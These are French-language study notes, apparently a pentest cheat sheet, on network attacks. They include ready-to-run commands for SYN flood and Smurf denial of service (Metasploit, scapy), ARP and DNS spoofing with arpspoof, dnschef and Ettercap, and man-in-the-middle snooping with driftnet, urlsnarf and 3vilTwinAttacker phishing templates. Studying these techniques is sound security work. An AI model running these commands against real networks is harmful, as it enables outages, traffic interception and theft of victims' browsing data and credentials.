- Consiste à saturer une cible (routeur etc)

### SYN flood : envoi de plein de SYN à la cible

- metasploit : 
- user auxiliary/dos/tcp/synflood
- set RHOST=IPVICTIME
- exploit

### Smurf : Un attaquant envoi de plein ping à la cible
- scapy:
- requete = send(IP(src=IPVictime, dst=adresseBroadcast)/ICMP(),count=100)

## Sniffing Réseau

- Consiste à intercepter des paquets et analyser celui-ci
- Ettercap : Man in the middle grâce à ARP
- Wireshark

- Ettercap -G : interface graphique
- sniff > unified sniffing
- Hosts -> Host list, scan for host
- Mitm -> arp poisoning -> sniff remote connexion

## Spoofing Réseau

- Envoyer des paquets IP en utilisant une adresse IP source
qui n'a pas été attributée à l'ordinateur émetteur (Mascarade IP)
- Sert à : masquer son ip, usurper identité, modifier paquets entre deux sources

- DNSChef : proxy DNS, création de faux domaines et controler le traffic d'une victime
- Arpspoof : forger paquets ARP entre 2 communicant, cache ARP et MAC


- dnschef --fakeip=[ip] --fakedomains [domaine] --interface [ip] -q
- arpspoof -t [ipCible] [ipDOntOnUsurpeLadresse]
- ettercap -G : sniff/unified sniffing hosts/hosts_list add_to_target mitm/arp_poisonning
Sniff Remote Connexion et Only poison one-way
Plugin > dns_spoof
puis aller vers le dossier /etc/ettercap/etter.dns qui va servir 
de dns


## Man in the middle

- faire en sorte qu'un pirate soit un relay entre 2 communicant
- DrifNet et Ettercap
- 3vilTwinAttacker
- Urlsnarf


- Ettercap -G : add to target 1/add to target 2 (man in the middle à proprement parler)
- driftnet (voir les images de la victime)
- urlsnarf -i [interface] (voir les url visité par la machine victime)
- 3viltwinattacker dans le fichier /usr/share/3vilTwinAttacker/Templates/Phising pour retrouver des
  infos phishées
